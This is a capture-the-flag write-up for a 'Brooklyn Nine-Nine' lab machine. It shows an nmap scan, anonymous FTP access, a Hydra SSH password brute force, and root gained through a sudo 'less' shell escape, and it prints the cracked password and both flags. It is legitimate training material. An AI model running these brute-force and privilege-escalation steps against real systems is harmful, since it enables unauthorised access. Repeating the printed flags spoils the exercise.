




# Brooklyn Nine-Nine CTF Writeup

##  Overview
Target IP: `10.48.185.131`  
Goal: Gain user and root flags

---

##  Step 1: Initial Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.48.185.131
````


### Results

* **21/tcp** → FTP (vsftpd 3.0.3)

  * Anonymous login allowed
* **22/tcp** → SSH (OpenSSH 7.6p1)
* **80/tcp** → HTTP (Apache 2.4.29)

---

##  Step 2: FTP Enumeration

Login using anonymous access:

```bash
ftp 10.48.185.131
```

Credentials:

```
Username: anonymous
Password: (nothing)
```

### Files Found

* `note_to_jake.txt`

### Contents

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

### Insight

* Username identified: **jake**
* Password likely weak

---

##  Step 3: SSH Brute Force

Used Hydra with rockyou wordlist:

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.48.185.131
```

### Credentials Found

```
Username: jake
Password: 987654321
```



---

##  Step 4: SSH Access

```bash
ssh jake@10.48.185.131
```

---

##  Step 5: Privilege Escalation Enumeration

Check sudo permissions:

```bash
sudo -l
```

### Output

```
(ALL) NOPASSWD: /usr/bin/less
```

### Insight

* `less` can be used to spawn a shell → privilege escalation

---

##  Step 6: Privilege Escalation

Run:

```bash
sudo less /etc/profile
```

Inside `less`, execute:

```bash
!/bin/bash
```


### Result

Root shell obtained:

```bash
whoami
# root
```

---

## 🏁 Step 7: Capture Flags

### Root Flag

```bash
cd /root
cat root.txt
```

**Output:**

```
63a9f0ea7bb98050796b649e85481845
```

---

### User Flag

```bash
cd /home/holt
cat user.txt
```

**Output:**

```
ee11cbb19052e40b07aac0ca060c23ee
```



---

##  Summary

| Step | Description                            |
| ---- | -------------------------------------- |
| 1    | Nmap scan identified FTP, SSH, HTTP    |
| 2    | Anonymous FTP revealed username + hint |
| 3    | Hydra cracked weak SSH password        |
| 4    | Logged in as `jake`                    |
| 5    | Found sudo misconfiguration (`less`)   |
| 6    | Escaped to root shell                  |
| 7    | Retrieved both flags                   |

PWN by **W4RR1OR**